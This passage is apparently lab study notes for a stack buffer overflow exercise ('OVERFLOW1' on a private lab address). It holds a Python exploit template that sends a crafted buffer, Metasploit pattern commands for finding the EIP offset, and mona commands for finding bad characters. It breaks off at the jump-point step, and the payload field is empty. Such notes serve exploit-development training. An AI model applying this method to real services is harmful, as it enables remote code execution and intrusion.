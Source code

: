 exploit.py

```text
import socket

ip = "10.10.95.202"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```

create a pattern: `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600`

And add the output to a payload variable and exploited.

take notes about the EIP and search the offset:

`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q EIP`

Check adding `BBBB` value to `retn` variable.

#### Finding Bad Characters

Find the characters that are not accepted on the payload. \(REMEMBER FILL THE EIP\)

`!mona bytearray -b "\x00"`

And add the output to the payload variable \(without the offset\)

Finally compare the binary file with the stack frame.

`!mona compare -f C:\mona\oscp\bytearray.bin -a ESP`

Repeat the process adding the new bad characters found until the results status returns **UNMODIFIED**

`!mona bytearray -b "\x00\x07\x2e\xa0"`

#### Finding a Jump Point
